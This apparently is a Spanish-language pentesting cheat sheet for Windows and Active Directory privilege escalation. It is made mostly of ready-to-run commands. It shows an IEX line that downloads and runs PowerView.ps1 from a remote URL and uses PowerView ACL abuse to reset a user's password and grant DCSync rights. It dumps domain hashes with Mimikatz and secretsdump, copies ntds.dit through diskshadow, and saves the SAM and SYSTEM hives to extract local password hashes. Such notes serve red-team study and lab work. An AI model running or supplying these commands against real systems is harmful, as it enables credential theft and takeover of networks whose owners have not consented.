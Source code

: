# Privilege Escalation

## Indice

* [Enumeración](./#enumeracion)
* [Privilegios](./#privilegios)
  * [WriteOwner](./#writeowner)
  * [WriteDACL](./#writedacl)
  * [SeBackupPrivilege](./#sebackupprivilege)
* [Dumpear Hashes](./#dumpear-hashes-en-memoria-a-nivel-local)

## Enumeración

```powershell
# Get current Windows Version
reg query "hklm\software\microsoft\windows nt\currentversion" /v ProductName
[Environment]::Is64BitProcess # 32 or 64 bits

### What can i do
whoami /priv
whoami /all

### Users info
net user         # list all users
net user <USER>  # describe user

### List groups
net localgroup        # list all groups
net localgroup <PERM> # list all members of a group

### Powershell history
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Privilegios

### WriteOwner

Este privilegio permite cambiar la contraseña del usuario sobre el que se tenga este privilegio.

```powershell
### Set the owner of claire in the current domain to tom.
Set-DomainObjectOwner -identity claire -OwnerIdentity tom 

### Give tom permissions to change passwords on that ACL
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword 

### Create powershell credential and change credentials. 
$cred = ConvertTo-SecureString "qwer1234QWER!@#$" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```

### WriteDACL

Este privilegio permite modificar el DACL (Discretionary Access Control List) del dominio, permitiendo darle cualquier privilegio que se quiera a un determinado objeto del DC, por ejemplo capacidad de DCSync. Para explotar existosamente se debe importar el script de PowerView.ps1 que nos permitira modificar los ACL.

```powershell
# Dar privilegios DCSync a un usuario
IEX(New-object System.Net.WebClient).downloadString('http://<url>/Powerview.ps1')
$SecPassword = ConvertTo-SecureString '<user-pass>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity <domain> -Rights DCSync

# Dumpear hashes
lsadump::dcsync /domain:testlab.local /user:Administrator # Local with Mimikatz
impacket-secretsdump <domain>/<user>@<IP> # Remote with secretsdump
```

### SeBackupPrivilege

Este privilegio permite hacer una copia de seguridad de archivos y directorios.

La explotación se la realiza a traves de **diskshadow.exe** en donde se copia todo el disco C a un disco que nos vamos a montar nosotros para después poder esta montura aunque no podemos examinar el disco C (o el que queramos analizar).

```powershell
# Crear un txt con estos parámetros, y agregar un espacio al final de cada línea
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:

# Ejecutar este comando una vez creado el txt para realizar la montura
diskshadow.exe /s c:\<txt-created>.txt

# Realizar la copia
copy z:\Windows\NTDS\ntds.dit .
robocopy /b z:\Windows\NTDS\ . ntds.dit
```

###

## Dumpear Hashes en memoria a nivel LOCAL

```bash
reg save HKLM\system system # Copiar la key system
reg save HKLM\sam sam       # Copiar la key sam


## Ya en kali
impacket-secretsdump -system system -sam sam LOCAL 
impacket-secretsdump -system system -ntds ntds.dit LOCAL
```


